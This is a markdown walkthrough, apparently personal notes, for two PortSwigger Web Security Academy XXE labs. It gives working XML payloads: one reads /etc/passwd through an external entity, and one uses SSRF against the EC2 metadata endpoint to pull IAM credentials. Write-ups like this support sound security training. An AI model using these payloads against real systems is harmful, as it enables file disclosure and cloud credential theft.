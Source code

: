 ```yaml
---
title: XXE - APPRENTICE
tags: [Portswigger Web Security Academy, Web]

---
```


# XXE - APPRENTICE
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response. 
* Goal: To solve the lab, inject an XML external entity to retrieve the contents of the `/etc/passwd` file. 

## Lab: Exploiting XXE using external entities to retrieve files
### Recon
1. Use Burp Suite to intercept package
![](https://i.imgur.com/gMn3Cbu.png)
You can notice that it use a normal xml format.

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd">]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/2Xbsq4L.png)

---
![](https://i.imgur.com/3npCzv9.png)
:::

---

## Lab: Exploiting XXE to perform SSRF attacks
* Description: This lab has a "Check stock" feature that parses XML input and returns any unexpected values in the response.
The lab server is running a (simulated) EC2 metadata endpoint at the default URL, which is `http://169.254.169.254/`. This endpoint can be used to retrieve data about the instance, some of which might be sensitive.
* Goal: To solve the lab, exploit the XXE vulnerability to perform an SSRF attack that obtains the server's IAM secret access key from the EC2 metadata endpoint.

### Recon
1. Intercept Package
From the screenshot of the package, we noticed that the xml attached data could be injected.
![](https://i.imgur.com/6o3vhzm.png)

### Exp - Inject Directly
Exploit Payload:
```xml!
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```
:::spoiler Success Screenshot
![](https://i.imgur.com/hYjBqR8.png)

---
![](https://i.imgur.com/4ZBkJpE.png)
:::